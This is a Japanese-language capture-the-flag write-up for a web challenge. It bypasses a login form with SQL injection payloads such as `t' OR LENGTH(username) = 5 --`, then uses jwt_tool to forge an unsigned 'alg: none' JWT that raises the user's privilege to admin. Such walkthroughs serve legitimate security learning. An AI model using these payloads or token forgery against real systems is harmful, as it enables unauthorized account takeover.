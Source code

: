 # Getting admin:Web:300pts
Challenge instance ready at 95.216.233.106:36245.  
See if you can get an admin account.  

# Solution
アクセスするとSign inとSign upがあるが、Sign upは現在停止しているようだ。  
RAQE  
[site.png](../Quarantine_-_Hidden_information/site/site.png)  
Sign inを試みる。  
Login  
[site1.png](../Quarantine/site/site1.png)  
Passwordに`'`を入力(Usernameは空)してみると、Internal Server Errorを引き起こせた。  
SQLインジェクションが行えそうだ。  
`t' OR 't' = 't`をPasswordに設定したところ以下のようにAttempting to login as more than one user!??と怒られた。  
Login(more than one user)  
[site2.png](../Quarantine/site/site2.png)  
userを制限してやれば良いため、`t' OR LENGTH(username) = 5 --`とする。  
ログイン成功したが、adminではないためAdminリンクには飛べない。  
Three videos avaliable  
[site3.png](../Quarantine/site/flag.png)  
ここでクッキーを見てみると以下のJWTが入っていた。  
```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
```
JWTだ。  
[JSON Web Tokens - jwt.io](https://jwt.io)で中身を見ると以下のようであった。  
HEADER:ALGORITHM & TOKEN TYPE  
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```
PAYLOAD:DATA   
```json
{
  "user": "Harry",
  "privilege": 1
}
```
userをAdminとするかprivilegeを0か2にしてみれば良いようだが署名をどうにかする必要がある。  
[The JSON Web Token Toolkit](https://github.com/ticarpi/jwt_tool)を使ってnoneが通るか確認する。  
一部の出力は省略する。  
```bash
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
> 2
~~~
"alg": "None":
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjF9.

"alg": "NONE":
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjF9.

"alg": "nOnE":
eyJ0eXAiOiJKV1QiLCJhbGciOiJuT25FIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjF9.
~~~
```
`eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjF9.`をセットしても問題ないようだ。  
よってJWTを任意のものに改竄し、署名無しにすればよい。  
一部の出力は省略する。  
```bash
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
> 1
> 2
> none
> 0
> 2
> 2
[1] user = "Harry"
[2] privilege = 2
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step
>0
> 3
~~~
Your new forged token:
"alg": "none":
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.

====================================================================
Some variants, which may work on some JWT libraries:

"alg": "None":
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.

"alg": "NONE":
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.

"alg": "nOnE":
eyJ0eXAiOiJKV1QiLCJhbGciOiJuT25FIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.
====================================================================
```
結局privilegeを2とするのが正解だった。  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiSGFycnkiLCJwcml2aWxlZ2UiOjJ9.`をセットしてAdminに飛ぶとflagが得られる。  
flag  
[flag.png](site/flag.png)  

## ractf{j4va5cr1pt_w3b_t0ken}